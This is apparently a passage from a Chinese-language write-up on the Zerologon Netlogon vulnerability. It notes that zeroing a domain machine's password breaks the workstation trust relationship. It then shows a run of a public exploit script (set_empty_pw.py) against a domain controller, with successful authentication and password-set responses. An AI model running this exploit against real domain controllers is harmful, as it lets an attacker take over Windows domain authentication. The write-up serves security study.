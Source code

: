 

其他域主机密码被置空，会无法登录该主机，提示 `The trust relationship between this workstation and the primary domain failed`

![Image](/assets/img/EiDMoJMXkAAb-dI.jpg)





### 0x04 利用

### 1. impacket 

https://github.com/risksense/zerologon/

```
C:\Users\win10\Desktop\zerologon>python set_empty_pw.py ringdc-pc 192.168.240.142
Performing authentication attempts...
==================================================================================================================
NetrServerAuthenticate3Response
ServerCredential:
    Data:                            b'\x10\x1e\x7f\xc6\xb3\xa4$\x87'
NegotiateFlags:                  556793855
AccountRid:                      1000
ErrorCode:                       0


server challenge b'\x10\x9f\x8f\xf7\xe5\xf2\x876'
NetrServerPasswordSet2Response
ReturnAuthenticator:
    Credential:
        Data:                            b'\x01\xf7m\x03\x18\x11\xc7\xb6'
    Timestamp:                       0
ErrorCode:                       0



```